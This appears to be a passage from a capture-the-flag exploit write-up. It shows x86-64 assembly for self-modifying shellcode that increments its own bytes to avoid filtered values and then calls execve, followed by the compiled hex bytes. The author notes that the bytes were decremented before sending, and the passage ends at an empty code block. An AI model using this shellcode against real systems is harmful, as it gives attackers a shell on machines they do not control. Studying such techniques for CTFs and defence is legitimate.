 ```asm
push rsp
mov ax, 0x0000
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x1200
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x3600
push ax
inc spl
pop ax
inc al
push ax
mov ax, 0x0090
push ax
pop rax
incb [rax]
mov al, 0xa0
incb [rax]
inc al
incb [rax]
pop rdi ; 5F
push 0x30
pop rax
xorb al, 0x30
push 0x30
pop rdx
xorb dl, 0x30
mov al, 0x3a
inc al
syscall ;0f 05
```
We still have the two instructions that produced the odd bytes. This compiles to:

```
\x6A\x30\x5E\x40\x80\xF6\x30\x56\x66\xB8\x68\x00\x66\x50\x66\xB8\x00\x72\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x2E\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x68\x6E\xFE\xC0\x66\x50\x66\xB8\x2E\x62\xFE\xC0\x66\x50\x54\x66\xB8\x00\x00\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x12\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x00\x36\x66\x50\x40\xFE\xC4\x66\x58\xFE\xC0\x66\x50\x66\xB8\x90\x00\x66\x50\x58\xFE\x00\xB0\xA0\xFE\x00\xFE\xC0\xFE\x00[\x5F]\x6A\x30\x58\x34\x30\x6A\x30\x5A\x80\xF2\x30\xB0\x3A\xFE\xC0[\x0F\x05]
```
However, our shell code will increment those bytes, so I manually decremented them before I sent it:
```
```